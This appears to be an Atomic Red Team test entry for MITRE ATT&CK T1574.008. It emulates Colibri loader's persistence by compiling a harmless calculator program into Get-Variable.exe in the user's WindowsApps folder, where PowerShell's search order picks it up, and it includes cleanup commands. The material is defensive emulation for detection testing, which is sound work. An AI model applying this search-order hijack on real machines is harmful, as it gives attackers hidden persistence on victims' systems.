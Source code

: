 ```yaml
---
tags: [T1574_008, atomic_test]
filename: "[[T1574.008 - Hijack Execution Flow- Path Interception by Search Order Hijacking]]"
---
```

# T1574.008 - Hijack Execution Flow: Path Interception by Search Order Hijacking

## Atomic Test #1 - powerShell Persistence via hijacking default modules - Get-Variable.exe
Colibri leverages PowerShell in a unique way to maintain persistence after a reboot. Depending on the Windows version, Colibri drops its copy in %APPDATA%\Local\Microsoft\WindowsApps and 
names it Get-Variable.exe for Windows 10 and above.
https://blog.malwarebytes.com/threat-intelligence/2022/04/colibri-loader-combines-task-scheduler-and-powershell-in-clever-persistence-technique/

**Supported Platforms:** Windows


**auto_generated_guid:** 1561de08-0b4b-498e-8261-e922f3494aae






#### Attack Commands: Run with `powershell`! 


```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out:"$env:localappdata\Microsoft\WindowsApps\Get-Variable.exe" "PathToAtomicsFolder\T1574.008\bin\calc.cs"
Powershell -noprofile
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:localappdata\Microsoft\WindowsApps\Get-Variable.exe" -ErrorAction Ignore
Stop-Process -Name "calculator"
```





<br/>
